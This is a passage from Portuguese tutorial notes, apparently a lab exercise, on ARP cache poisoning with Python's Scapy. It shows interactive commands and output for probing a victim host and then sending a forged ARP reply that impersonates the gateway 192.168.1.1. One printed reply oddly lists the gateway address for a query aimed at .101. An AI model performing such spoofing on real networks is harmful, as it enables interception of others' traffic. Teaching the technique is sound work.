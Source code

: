 * Vítima:

```python
>>> arprequest2 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst = "192.168.1.101")
>>> arprequest2.show()
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 28:56:5a:49:ff:67
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 28:56:5a:49:ff:67
     psrc= 192.168.1.103
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.101

>>> arpreply2 = srp(arprequest2)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> arpreply2[0][0][1]
(<<Ether  dst=28:56:5a:49:ff:67 src=c4:e9:84:9a:14:16 type=ARP |<ARP
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=b4:2e:99:f4:b7:df
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```

A mesma observação feita para o gateway vale para a vítima.

* 2º passo: “envenenar” o arp cache da vítima na linha do default gateway, preenchendo com o MAC address do atacante
* Solução: fake arp reply

```python
>>> arppoison1 = ARP(op = 2, psrc = "192.168.1.1", pdst = "192.168.1.101", hwdst = "b4:2e:99:f4:b7:df")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.1
  hwdst= b4:2e:99:f4:b7:df
  pdst= 192.168.1.101

>>> send(arppoison1)
.
Sent 1 packets.
```
